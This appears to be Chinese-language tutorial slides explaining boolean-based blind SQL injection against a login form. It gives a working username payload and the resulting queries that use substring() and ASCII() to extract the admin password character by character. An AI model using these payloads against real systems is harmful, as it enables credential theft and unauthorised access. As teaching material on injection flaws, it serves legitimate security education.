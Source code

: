 帳號: `admin' or substring((select password from Users where user = 'admin' limit 1),1,1)='a'#'`

密碼: meow

```sql
SELECT * from Users
  where user = 'admin' or substring(
    (select password from Users where user = 'admin' limit 1)
    ,1,1
  )='a'#'' and password = md5('meow');
```

---


`substring('string', 開始位置, 長度)`

從 'string' 指定的開始位置取長度個字元

---

`substring('admin', 1, 1)`

會得到 'a'

---

如果過了

代表 `admin` 的 `password` 那一欄

第一個字元是 `a` 或 `A`

> SQL 預設編碼是不分大小寫, so ....

---

至於大小寫不分的問題可以用 SQL 內建函式解決

---

`ASCII('string')`

取出 'string' 第一字元並回傳其 ascii 值

---

`ASCII('a')`

回傳 97

---

依照這原理我們可以把所有能用的字元都試過一次

---

```sql
SELECT * from Users
  where user = 'admin' or ASCII(substring(
    (select password from Users where user = 'admin' limit 1)
    ,1,1
  ))=ASCII('a')#'' and password = md5('meow');
```
